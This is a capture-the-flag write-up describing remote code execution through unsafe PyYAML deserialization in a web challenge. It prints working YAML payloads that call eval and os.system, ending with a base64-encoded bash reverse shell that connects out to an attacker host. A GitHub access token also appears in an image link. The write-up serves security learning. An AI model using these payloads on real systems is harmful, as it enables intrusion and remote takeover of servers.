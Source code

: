 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.


Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .






seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...













it works! 
